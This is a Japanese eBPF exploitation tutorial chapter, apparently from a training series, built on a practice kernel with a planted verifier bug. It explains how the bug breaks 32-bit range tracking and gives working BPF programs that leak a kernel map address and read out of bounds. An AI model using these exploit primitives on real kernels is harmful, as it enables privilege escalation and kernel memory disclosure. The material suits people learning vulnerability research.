


この章では、eBPFの中でも検証器のバグを悪用して権限昇格に挑戦します。まずは、[LK06 (Brahman)](distfiles/LK06.tar.gz)の配布ファイルを用意してください。

<div class="column" title="目次">
<!-- toc --><br>
</div>

## パッチの確認
今回は練習用にeBPFを脆弱にするため、検証器に対してバグを埋め込むパッチが適用されています。`patch/verifier.diff`にその内容があるので、確認してみましょう。
```diff
7957c7957,7958
<               __mark_reg32_known(dst_reg, var32_off.value);
---
>               // `scalar_min_max_or` will handler the case
>               //__mark_reg32_known(dst_reg, var32_off.value);
```
[`kernel/bpf/verifier.c`](https://elixir.bootlin.com/linux/v5.18.14/source/kernel/bpf/verifier.c#L7957)の7957行目[^1]に変更が入っています。

[^1] Linuxカーネルのバージョンは5.18.14です。

`scalar32_min_max_or`関数の冒頭で`__mark_reg32_known`という関数が呼ばれていますが、パッチ適用後はコメントアウトされています。それ以外の変更はないので、この部分を詳しく見ていきましょう。

### `scalar32_min_max_or`を読む
変更が入っている`scalar32_min_max_or`の呼び出し元は[`adjust_scalar_min_max_vals`](https://elixir.bootlin.com/linux/v5.18.14/source/kernel/bpf/verifier.c#L7957)です。この関数では、ADDやXORなどのALU演算後の宛先レジスタの範囲追跡を実装しています。
修正が入っているのは`BPF_OR`です。
```c
	case BPF_OR:
		dst_reg->var_off = tnum_or(dst_reg->var_off, src_reg.var_off);
		scalar32_min_max_or(dst_reg, &src_reg);
		scalar_min_max_or(dst_reg, &src_reg);
		break;
```
まず、`tnum_or`で宛先レジスタの`var_off`を更新しています。実装は単純で、ORするビットの両方が不明であれば、宛先も不明とします。片方のビットが不明な時でも、もう片方が1であればORした結果も必ず1になるため、maskの対応するビットは0になります。
```c
struct tnum tnum_or(struct tnum a, struct tnum b)
{
	u64 v, mu;

	v = a.value | b.value;
	mu = a.mask | b.mask;
	return TNUM(v, mu & ~v);
}
```
例えば`(mask=0xffff0000; value=0x1001)`と`(mask=0xffffff00; value=0x2)`をORすると、`(mask=0xffffef00; value=0x1003)`になります。

`var_off`を更新したら、問題の`scalar32_min_max_or`が呼ばれます。削除されている箇所は`src_known`, `dst_known`がtrueのときに到達します。
```c

	bool src_known = tnum_subreg_is_const(src_reg->var_off);
	bool dst_known = tnum_subreg_is_const(dst_reg->var_off);

...

	if (src_known && dst_known) {
        // `scalar_min_max_or` will handler the case
		//__mark_reg32_known(dst_reg, var32_off.value);
		return;
	}
```
`tnum_subreg_is_const`は、レジスタの下位32ビット部分が定数のときにtrueを返します。つまり、ORするレジスタの両方とも下位32ビットが定数のとき、本来は`__mark_reg32_known`が呼ばれるはずでした。
[`__mark_reg32_known`](https://elixir.bootlin.com/linux/v5.18.14/source/kernel/bpf/verifier.c#L1180)は、定数の`var_off`を使って`s32_min_value`, `s32_max_value`, `u32_min_value`, `u32_max_value`を更新します。
```c
static void __mark_reg32_known(struct bpf_reg_state *reg, u64 imm)
{
	reg->var_off = tnum_const_subreg(reg->var_off, imm);
	reg->s32_min_value = (s32)imm;
	reg->s32_max_value = (s32)imm;
	reg->u32_min_value = (u32)imm;
	reg->u32_max_value = (u32)imm;
}
```
パッチ中のコメントに「`scalar_min_max_or` will handler the case」とあるので、[`scalar_min_max_or`](https://elixir.bootlin.com/linux/v5.18.14/source/kernel/bpf/verifier.c#L7981)も追ってみます。
```c

static void scalar_min_max_or(struct bpf_reg_state *dst_reg,
			      struct bpf_reg_state *src_reg)
{
	bool src_known = tnum_is_const(src_reg->var_off);
	bool dst_known = tnum_is_const(dst_reg->var_off);
	s64 smin_val = src_reg->smin_value;
	u64 umin_val = src_reg->umin_value;

	if (src_known && dst_known) {
		__mark_reg_known(dst_reg, dst_reg->var_off.value);
		return;
	}

    ...
}
```
基本的には`scalar32_min_max_or`の64ビット版です。ここで、両方とも64ビットの値が定数のとき、`__mark_reg_known`が呼ばれます。`__mark_reg_known`は、64ビット部分に加えて32ビットの範囲も定数に変更しています。
```c

/* This helper doesn't clear reg->id */
static void ___mark_reg_known(struct bpf_reg_state *reg, u64 imm)
{
	reg->var_off = tnum_const(imm);
	reg->smin_value = (s64)imm;
	reg->smax_value = (s64)imm;
	reg->umin_value = imm;
	reg->umax_value = imm;

	reg->s32_min_value = (s32)imm;
	reg->s32_max_value = (s32)imm;
	reg->u32_min_value = (u32)imm;
	reg->u32_max_value = (u32)imm;
}

/* Mark the unknown part of a register (variable offset or scalar value) as
 * known to have the value @imm.
 */
static void __mark_reg_known(struct bpf_reg_state *reg, u64 imm)
{
	/* Clear id, off, and union(map_ptr, range) */
	memset(((u8 *)reg) + sizeof(reg->type), 0,
	       offsetof(struct bpf_reg_state, var_off) - sizeof(reg->type));
	___mark_reg_known(reg, imm);
}
```
つまり、ORの64ビットレジスタが両方とも定数の場合、`scalar32_min_max_or`で`__mark_reg32_known`を呼ばなくても、後の`scalar_min_max_or`で問題なく定数になるという仕組みです。

では、64ビットレジスタの上位32ビットが定数でない場合はどうでしょうか。`scalar32_min_max_or`は即座にreturnしますが、`scalar_min_max_or`で`__mark_reg_known`は呼ばれません。
このとき、`scalar_min_max_or`中の次のパスに到達します。
```c
	/* We get our maximum from the var_off, and our minimum is the
	 * maximum of the operands' minima
	 */
	dst_reg->umin_value = max(dst_reg->umin_value, umin_val);
	dst_reg->umax_value = dst_reg->var_off.value | dst_reg->var_off.mask;
	if (dst_reg->smin_value < 0 || smin_val < 0) {
		/* Lose signed bounds when ORing negative numbers,
		 * ain't nobody got time for that.
		 */
		dst_reg->smin_value = S64_MIN;
		dst_reg->smax_value = S64_MAX;
	} else {
		/* ORing two positives gives a positive, so safe to
		 * cast result into s64.
		 */
		dst_reg->smin_value = dst_reg->umin_value;
		dst_reg->smax_value = dst_reg->umax_value;
	}
	/* We may learn something more from the var_off */
	__update_reg_bounds(dst_reg);
```
`umin_value`, `umax_value`, `smin_value`, `smax_value`を更新したあと、`__update_reg_bounds`が呼ばれます。
```c
static void __update_reg_bounds(struct bpf_reg_state *reg)
{
	__update_reg32_bounds(reg);
	__update_reg64_bounds(reg);
}
```
こちらでも32ビット、64ビットともに範囲を更新しています。ということは、パッチは不要な処理を削除しただけでしょうか？

### `__update_reg32_bounds`を読む
[`__update_reg32_bounds`](https://elixir.bootlin.com/linux/v5.18.14/source/kernel/bpf/verifier.c#L1298)の処理をよく見てみましょう。
```c
static void __update_reg32_bounds(struct bpf_reg_state *reg)
{
	struct tnum var32_off = tnum_subreg(reg->var_off);

	/* min signed is max(sign bit) | min(other bits) */
	reg->s32_min_value = max_t(s32, reg->s32_min_value,
			var32_off.value | (var32_off.mask & S32_MIN));
	/* max signed is min(sign bit) | max(other bits) */
	reg->s32_max_value = min_t(s32, reg->s32_max_value,
			var32_off.value | (var32_off.mask & S32_MAX));
	reg->u32_min_value = max_t(u32, reg->u32_min_value, (u32)var32_off.value);
	reg->u32_max_value = min(reg->u32_max_value,
				 (u32)(var32_off.value | var32_off.mask));
}
```
`__mark_reg32_known`が呼ばれていないため、32ビットのmin, maxは古い状態のままです。これを利用して更新されるmin, maxに不整合を起こせないでしょうか。簡単のために符号なしの場合を考えます。
```c
reg->u32_min_value = max_t(u32, reg->u32_min_value, (u32)var32_off.value);
reg->u32_max_value = min(reg->u32_max_value,
			 (u32)(var32_off.value | var32_off.mask));
```
今、レジスタの下位32ビットはsrc, dstともに定数です。そのため、`var32_off.mask`は0で、次のように書き直せます。
```c
reg->u32_min_value = max(reg->u32_min_value, var32_off.value);
reg->u32_max_value = min(reg->u32_max_value, var32_off.value);
```
`u32_min_value`と`u32_max_value`は宛先レジスタの元の状態が引き継がれています。下位32ビットは定数である必要があるので、元の`u32_min_value`と`u32_max_value`はともにXという値だったとします。これに対して何かしらの定数YをORして、結果が`X|Y`になります。すると、`X|Y > X`のとき、
```c
reg->u32_min_value = max(X, X|Y); // min=X|Y
reg->u32_max_value = min(X, X|Y); // max=X
```
となり、`u32_min_value`が`u32_max_value`よりも大きくなるという不整合が起きます。

### バグの再現
簡単のためにX=0, Y=1として考えましょう。
まず、次のようなレジスタR1, R2を用意します。
```
R1: var_off=(value=0; mask=0xffffffff00000000)
R2: var_off=(value=0xfffffffe00000001; mask=0)
```
これを`BPF_OR(R1, R2)`でORした際の変化を見てみましょう。

1. `var_off=(value=0xfffffffe00000001; mask=0x100000000)`
2. `u32_min_value = max(0, 1) = 1`
3. `u32_max_value = min(0, 1) = 0`

これにより、32ビット部分の最小値が1、最大値が0という壊れたレジスタができます。実際にコードで確認しましょう。
```c
  // BPFマップを作成
  int mapfd = map_create(8, 1);

  /* BPFプログラム */
  struct bpf_insn insns[] = {
    // R0 --> &map[0]
    BPF_ST_MEM(BPF_DW, BPF_REG_FP, -0x08, 0), // key=0
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -8),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem), // map_lookup_elem(mapfd, &k)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
    BPF_EXIT_INSN(),

    // R1 --> var_off=(value=0; mask=0xffffffff00000000)
    BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_0, 0),
    BPF_ALU64_IMM(BPF_RSH, BPF_REG_1, 32),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_1, 32),

    // R2 --> var_off=(value=0xfffffffe00000001; mask=0)
    BPF_MOV64_IMM(BPF_REG_2, 0xfffffffe),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 1),

    // R1 --> (s32_min=1, s32_max=0, u32_min=1, u32_max=0)
    BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2),

    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
  };
```
このプログラムをロードし、検証器のログ`verifier_log`を出力してみてください。
```
/ $ ./pwn 
func#0 @0
0: R1=ctx(off=0,imm=0) R10=fp0
0: (7a) *(u64 *)(r10 -8) = 0          ; R10=fp0 fp-8_w=mmmmmmmm
1: (18) r1 = 0x0                      ; R1_w=map_ptr(off=0,ks=4,vs=8,imm=0)
3: (bf) r2 = r10                      ; R2_w=fp0 R10=fp0
4: (07) r2 += -8                      ; R2_w=fp-8
5: (85) call bpf_map_lookup_elem#1    ; R0_w=map_value_or_null(id=1,off=0,ks=4,vs=8,imm=0)
6: (55) if r0 != 0x0 goto pc+1        ; R0_w=P0
7: (95) exit

from 6 to 8: R0=map_value(off=0,ks=4,vs=8,imm=0) R10=fp0 fp-8=mmmmmmmm
8: (79) r1 = *(u64 *)(r0 +0)          ; R0=map_value(off=0,ks=4,vs=8,imm=0) R1_w=Pscalar()
9: (77) r1 >>= 32                     ; R1_w=Pscalar(umax=4294967295,var_off=(0x0; 0xffffffff))
10: (67) r1 <<= 32                    ; R1_w=Pscalar(smax=9223372032559808512,umax=18446744069414584320,var_off=(0x0; 0xffffffff00000000),s32_min=0,s32_max=0,u32_max=0)
11: (b7) r2 = -2                      ; R2_w=P-2
12: (67) r2 <<= 32                    ; R2_w=P-8589934592
13: (07) r2 += 1                      ; R2_w=P-8589934591
14: (4f) r1 |= r2                     ; R1_w=Pscalar(umin=18446744065119617025,umax=18446744069414584321,var_off=(0xfffffffe00000001; 0x100000000),s32_min=1,s32_max=0,u32_min=1,u32_max=0) R2_w=P-85891
15: (b7) r0 = 0                       ; R0_w=P0
16: (95) exit
processed 16 insns (limit 1000000) max_states_per_insn 0 total_states 1 peak_states 1 mark_read 1
```
14個目のOR命令で
```
R1_w=Pscalar(...,s32_min=1,s32_max=0,u32_min=1,u32_max=0)
```
と、範囲追跡が壊れていることが分かります。

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    このバグは実際にOR, AND, XOR命令で<a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3490" target="_blank">過去に存在していたもの</a>だよ。</a>
  </p>
</div>

## アドレスリーク
今回のように、`min_value > max_value`という条件ができた場合、それを悪用する方法はいくつかあります。まずはマップのアドレスリークに使ってみましょう。
eBPFではポインタに対するスカラー値の加減算が許可されています。ポインタとスカラー値の演算におけるオフセットのアップデートは、[`adjust_ptr_min_max_vals`](https://elixir.bootlin.com/linux/v5.18.14/source/kernel/bpf/verifier.c#L7480)に実装されています。
```c
static int adjust_ptr_min_max_vals(struct bpf_verifier_env *env,
				   struct bpf_insn *insn,
				   const struct bpf_reg_state *ptr_reg,
				   const struct bpf_reg_state *off_reg)
{

...

    bool known = tnum_is_const(off_reg->var_off);
	s64 smin_val = off_reg->smin_value, smax_val = off_reg->smax_value,
	    smin_ptr = ptr_reg->smin_value, smax_ptr = ptr_reg->smax_value;
	u64 umin_val = off_reg->umin_value, umax_val = off_reg->umax_value,
	    umin_ptr = ptr_reg->umin_value, umax_ptr = ptr_reg->umax_value;

...

	if ((known && (smin_val != smax_val || umin_val != umax_val)) ||
	    smin_val > smax_val || umin_val > umax_val) {
		/* Taint dst register if offset had invalid bounds derived from
		 * e.g. dead branches.
		 */
		__mark_reg_unknown(env, dst_reg);
		return 0;
	}

    ...
```
上記のコードを読むと、今回のようにスカラー値側の追跡が壊れているケースでは、演算結果を`__mark_reg_unknown`で不明な値にしています。
つまり、追跡を壊したレジスタとポインタを加算すると、結果はスカラー値として扱われます。スカラー値はBPFマップに書き込めるので、アドレスリークが可能です。さっそく`map_lookup_elem`で取得したBPFマップのポインタをリークしてみましょう。
先ほど`s32_min_value`などの推測を壊しましたが、上記コードでは`smin_val`など64ビットレジスタが壊れている必要があります。32ビット値を64ビット値に拡張するには、x86-64と同じように、`BPF_MOV32_REG`を使って32ビットのレジスタにコピーすれば良いです。
```c
...
    // R1 --> (s32_min=1, s32_max=0, u32_min=1, u32_max=0)
    BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2),

    // R0 --> scalar
    BPF_MOV32_REG(BPF_REG_1, BPF_REG_1),
    BPF_ALU64_REG(BPF_ADD, BPF_REG_0, BPF_REG_1),

    // スカラー値となったポインタを保存
    BPF_STX_MEM(BPF_DW, BPF_REG_FP, BPF_REG_0, -0x10),
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP), // key
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -0x08),
    BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_FP), // value
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG3, -0x10),
    BPF_MOV64_IMM(BPF_REG_ARG4, 0),          // flag
    BPF_EMIT_CALL(BPF_FUNC_map_update_elem), // map_update_elem
```

次のようにBPFマップのアドレスがリークできていれば成功です。R1には1が入っていたので、加算により実際よりもアドレスが1ずれていることに注意してください。

<center>
  
</center>

このアドレスを見ると、正しく配列の先頭要素（リークしたデータ）が入っています。

<center>
  
</center>

0x110引いたところは、メタデータを含むBPFマップの先頭になります。今回は配列形式で作っているので、[`bpf_array`構造体](https://elixir.bootlin.com/linux/v5.18.14/source/include/linux/bpf.h#L1146)が存在します。例えば先頭にある0xffffffff81c124a0という値は、[`bpf_map`構造体](https://elixir.bootlin.com/linux/v5.18.14/source/include/linux/bpf.h#L158)の`ops`という関数テーブルになります。今回は使いませんが、eBPFの攻撃ではこの`ops`を書き換えて権限昇格する手法もあります。

この方法は`adjust_ptr_min_max_vals`のコードを知っていないと気づけませんが、実際にはこれを利用しなくてもexploitが書けます。（例題を参照）

マップのアドレスを持っていると以降のkASLRリークが簡単になるため、アドレスは持っておきましょう。マップのfdを渡すと（最後に1を引いた）アドレスを返してくれるように、関数化しておくとコードが綺麗になります。

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    root権限では標準でポインタのリークが許可されているから、eBPFのexploitをデバッグするときは必ず一般ユーザー権限での動作確認も忘れないでね。
  </p>
</div>

## 範囲外参照
[前章](verifier.html)でも少し触れましたが、2022年現在はALU sanitationという緩和機構が入っているため、かつてのように単純には範囲外参照ができません。
しかし、まずは「単純な」範囲外参照を試してみましょう。
実は、ALU sanitationは[`bpf_bypass_spec_v1`](https://elixir.bootlin.com/linux/v5.18.14/source/include/linux/bpf.h#L1469)という関数がtrueを返したときは[スキップ](https://elixir.bootlin.com/linux/v5.18.14/source/kernel/bpf/verifier.c#L7196)されます。この関数はroot権限ではtrueを返すので、root権限では今でも範囲外参照を試せます。
そこで、まずはroot権限で「単純な」範囲外参照を試してみましょう。

### 追跡が壊れた定数の作成
検証器の誤りを悪用する上で便利なのは、「検証器がXと思っているが実際にはYである定数（XX!=Y）」を作ることです。とくにX=0,Y!=0のときは、何を掛けても検証器は0と判断するので、範囲外参照のオフセットを作るのに都合が良いです。
まずは「検証器が0と思っているが実際には1である定数」を作ってみましょう。

今、R1は`u32_min_value`が1で`u32_max_value`が0になっています。反対に、R2に`u32_min_value`が0で`u32_max_value`が1である（壊れていない）値を入れます。ここでR1とR2の加算を考えると、範囲は`[1,0]+[0,1]=[1,1]`になることが分かります。

最小値、最大値が同じレジスタは、MOVなどのタイミングで定数扱いになります。R1の実際値は1でしたが、R2は0か1を取ります。したがって、加算結果は`[1,2]`でなければなりません。しかし、検証器は加算後のR1を定数1と判断してしまうため、実際には2が入っている状況が生まれます。
あとはR1から1を引けば、目的の「検証器は0と思っているが実際には1である定数」が作れます。

`u32_min_value`が0で`u32_max_value`が1であるR2は、論理・算術演算を組み合わせるか、条件分岐で1より大きいケースを捨てることで作成できます。
```c
  // BPFマップを作成
  int mapfd = map_create(8, 1);
  val = 1;
  map_update(mapfd, 0, &val);

  /* BPFプログラム */
  struct bpf_insn insns[] = {
    // R0 --> &map[0]
    BPF_ST_MEM(BPF_DW, BPF_REG_FP, -0x08, 0), // key=0
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -8),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem), // map_lookup_elem(mapfd, &k)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
    BPF_EXIT_INSN(),
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_0),

    // R1 --> var_off=(value=0; mask=0xffffffff00000000)
    BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_9, 0),
    BPF_ALU64_IMM(BPF_RSH, BPF_REG_1, 32),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_1, 32),
    // R2 --> var_off=(value=0xfffffffe00000001; mask=0)
    BPF_MOV64_IMM(BPF_REG_2, 0xfffffffe),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 1),
    // R1 --> (s32_min=1, s32_max=0, u32_min=1, u32_max=0) / 実際値:1
    BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2),

    // R2 --> (s32_min=0, s32_max=1, u32_min=0, u32_max=1) / 実際値:1
    BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_9, 0),
    BPF_JMP32_IMM(BPF_JLE, BPF_REG_2, 1, 2), // 1より大きいケースを破棄
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),

    // R1 --> 0 / 実際値:1
    BPF_ALU64_REG(BPF_ADD, BPF_REG_1, BPF_REG_2),
    BPF_MOV32_REG(BPF_REG_1, BPF_REG_1),
    BPF_ALU64_IMM(BPF_SUB, BPF_REG_1, 1),

    // R1の実際の値を見てみる
    BPF_STX_MEM(BPF_DW, BPF_REG_FP, BPF_REG_1, -0x10),
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP), // key
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -0x08),
    BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_FP), // value
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG3, -0x10),
    BPF_MOV64_IMM(BPF_REG_ARG4, 0),          // flag
    BPF_EMIT_CALL(BPF_FUNC_map_update_elem), // map_update_elem

    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
  };
```
このプログラムを実行した後のマップ（R1の実際の値）を確認してみると、1になっていることが分かります。一方、22番目の命令終了時点で検証器はR1に0が入っていると推測しています。

<center>
  
</center>

### 範囲外参照の確認
先ほどのコードで、追跡結果が定数0になるにも関わらず、実際には1を持つようなレジスタが作れました。このレジスタに適当な数を掛けて、マップのポインタに足すと、結果として範囲外を指す有効なポインタが作れます。

実際に試してみましょう。
次のBPFプログラムは、壊れたレジスタに0x100を掛けることで、「推測値=0 / 実際値=0x100」の状況を作り、それを使ってマップの範囲外を`BPF_LDX_MEM`で読んでいます。
```c
int main() {
  char verifier_log[0x10000];
  unsigned long val;

  // BPFマップを作成
  int mapfd = map_create(8, 1);

  unsigned long addr_map = leak_map_address(mapfd);
  printf("[+] addr_map = 0x%016lx\n", addr_map);

  val = 1;
  map_update(mapfd, 0, &val);
  /* BPFプログラム */
  struct bpf_insn insns[] = {
    // R0 --> &map[0]
    BPF_ST_MEM(BPF_DW, BPF_REG_FP, -0x08, 0), // key=0
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -8),
    BPF_EMIT_CALL(BPF_FUNC_map_lookup_elem), // map_lookup_elem(mapfd, &k)
    BPF_JMP_IMM(BPF_JNE, BPF_REG_0, 0, 1),
    BPF_EXIT_INSN(),
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_0),

    // R1 --> var_off=(value=0; mask=0xffffffff00000000)
    BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_9, 0),
    BPF_ALU64_IMM(BPF_RSH, BPF_REG_1, 32),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_1, 32),
    // R2 --> var_off=(value=0xfffffffe00000001; mask=0)
    BPF_MOV64_IMM(BPF_REG_2, 0xfffffffe),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 1),
    // R1 --> (s32_min=1, s32_max=0, u32_min=1, u32_max=0) / actual:1
    BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2),

    // R2 --> (s32_min=0, s32_max=1, u32_min=0, u32_max=1) / actual:1
    BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_9, 0),
    BPF_JMP32_IMM(BPF_JLE, BPF_REG_2, 1, 2),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),

    // R1 --> 0 / actual: 1
    BPF_ALU64_REG(BPF_ADD, BPF_REG_1, BPF_REG_2),
    BPF_MOV32_REG(BPF_REG_1, BPF_REG_1),
    BPF_ALU64_IMM(BPF_SUB, BPF_REG_1, 1),

    // R1 --> 0 / actual: 0x100
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_1, 0x100),

    // 範囲外参照でデータをR2にリーク
    BPF_MOV64_REG(BPF_REG_3, BPF_REG_9),
    BPF_ALU64_REG(BPF_ADD, BPF_REG_3, BPF_REG_1),
    BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_3, 0),

    // リークしたデータをユーザー空間で受け取る
    BPF_STX_MEM(BPF_DW, BPF_REG_FP, BPF_REG_2, -0x10),
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP), // key
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -0x08),
    BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_FP), // value
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG3, -0x10),
    BPF_MOV64_IMM(BPF_REG_ARG4, 0),          // flag
    BPF_EMIT_CALL(BPF_FUNC_map_update_elem), // map_update_elem

    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
  };

  /* ソケット用に設定 */
  union bpf_attr prog_attr = {
    .prog_type = BPF_PROG_TYPE_SOCKET_FILTER,
    .insn_cnt = sizeof(insns) / sizeof(insns[0]),
    .insns = (uint64_t)insns,
    .license = (uint64_t)"GPL v2",
    .log_level = 2,
    .log_size = sizeof(verifier_log),
    .log_buf = (uint64_t)verifier_log
  };

  /* BPFプログラムをロード */
  int progfd = bpf(BPF_PROG_LOAD, &prog_attr);
  printf("%s\n", verifier_log);
  if (progfd == -1) fatal("bpf(BPF_PROG_LOAD)");

  /* ソケットを作成 */
  int socks[2];
  if (socketpair(AF_UNIX, SOCK_DGRAM, 0, socks))
    fatal("socketpair");
  if (setsockopt(socks[0], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(int)))
    fatal("setsockopt");

  /* ソケットを利用（BPFプログラムの発動） */
  write(socks[1], "Hello", 5);

  map_lookup(mapfd, 0, &val);
  printf("val = 0x%016lx\n", val);

  getchar();

  return 0;
}
```
このプログラムを**root権限で**実行すると、次のように、設定した覚えのない値が読めていることが分かります。

<center>
  
</center>

実際にgdbで確認すると、マップのアドレスから0x100先にリークしたデータが存在します。

<center>
  
</center>

なお、0x100という定数をMOVで渡すと、検証器に範囲外参照を検知されることから、脆弱性に起因して範囲外参照を起こせていることが分かります。

しかし、一般ユーザー権限で同じプログラムを実行すると、ALU sanitationが加算による範囲外参照を0の加算に変換してしまうため、次のように何もデータがリークできません。（最初から入れていた値1が取り出されていることからも、ALU sanitationにより加算が意味を成していないことが分かります。）

<center>
  
</center>

<div class="balloon_l">
  <div class="faceicon"></div>
  <p class="says">
    ALU sanitationがない時代は、この手法でbap_map構造体のopsなどを読み書きする攻撃が主流だったよ。
  </p>
</div>

## ALU sanitationの回避


